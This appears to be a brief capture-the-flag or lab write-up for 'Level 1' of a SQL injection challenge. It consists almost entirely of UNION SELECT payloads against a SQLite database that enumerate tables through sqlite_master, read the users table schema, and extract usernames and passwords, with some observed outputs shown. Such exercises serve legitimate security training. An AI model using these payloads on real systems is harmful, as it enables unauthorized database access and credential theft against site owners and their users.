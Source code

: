 #Level 1
1 UNION SELECT 1,name FROM sqlite_master WHERE type='table' LIMIT 1,2 -- 

	username -> users

1 UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table' LIMIT 0,1 -- 

	username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))

1 UNION SELECT username, password FROM users LIMIT 1,2 -- 
